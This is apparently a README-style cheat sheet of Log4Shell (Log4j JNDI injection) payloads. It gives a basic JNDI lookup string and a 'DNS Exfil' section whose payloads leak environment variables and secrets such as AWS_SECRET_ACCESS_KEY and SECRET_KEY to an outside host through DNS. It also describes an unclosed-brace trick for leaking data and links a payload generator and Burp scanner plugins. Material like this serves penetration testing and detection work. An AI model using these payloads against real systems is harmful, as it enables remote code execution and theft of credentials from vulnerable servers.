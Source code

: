 ## Basic payload
`${jndi:ldap://example.com/a}`

## DNS Exfil
```
${jndi:ldap://${env:JAVA_VERSION}.example.com/a}
${jndi:ldap://${sys:java.version}.example.com/a}
${jndi:ldap://${hostName}.example.com/a}
${jndi:ldap://${sys:java.vendor}.example.com/a}
${jndi:ldap://${env:user}.example.com/a}
${jndi:ldap://${env:AWS_SECRET_ACCESS_KEY}.example.com}
${jndi:ldap://example.com/a${env:USER}}
${jndi:ldap://${env:SECRET_KEY}.example.com/}
```

## Omitting closing brace can lead to data exfil after "/" sign
`${jndi:ldap://example.com/`

## Payload generator
https://github.com/woodpecker-appstore/log4j-payload-generator

## Burp plugins
### Passive scanner checks
https://github.com/whwlsfb/Log4j2Scan

### Active scan check
https://portswigger.net/bappstore/b011be53649346dd87276bca41ce8e8f

